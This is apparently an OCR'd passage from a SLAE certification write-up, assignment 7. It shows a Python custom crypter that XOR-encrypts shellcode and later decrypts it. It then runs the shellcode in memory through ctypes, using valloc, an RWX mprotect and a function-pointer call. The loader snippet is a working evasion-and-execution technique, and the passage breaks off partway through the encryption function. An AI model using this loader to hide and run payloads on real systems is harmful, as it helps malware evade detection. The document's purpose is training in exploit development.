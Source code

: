 ````
        sc = c_char_p(shellcode)
        size = len(shellcode)
        addr = c_void_p(libc.valloc(size))
        memmove(addr, sc, size)
        libc.mprotect(addr, size, 0x7)
        run = cast(addr, CFUNCTYPE(c_void_p))
        run()
    except:
        print('An error occured while trying to execute the decrypted shellcode')
````
``Decryption function``

![](../Images/02_slae_assignment_7.png)

``Decryption - Example of execution``

### Final code

````
#!/usr/bin/python

"""
 Filename:   custom_crypter.py
 Author:     Samuel Dugo
 SLAE-ID:    SLAE-1376
 Purpose:    Assignment #7 of SLAE certification. This code will encrypt a provided shellcode, and then it will attempt to decrypt and execute the shellcode.
"""

import binascii
from ctypes import *
import argparse

parser = argparse.ArgumentParser(description='This is a demo script that will encrypt/decrypt a text string using multiple rounds of XOR based on the key lenght.')
parser.add_argument('-e','--encrypt', help='Call encryption functionality', action='store_true')
parser.add_argument('-d','--decrypt', help='Call decryption functionality', action='store_true')
args = parser.parse_args()


def encryption():
    try:
        print('Starting encryption')
        plain_text = input('Enter text to encrypt: ')
        print('Text to encrypt: ' +str(plain_text))
````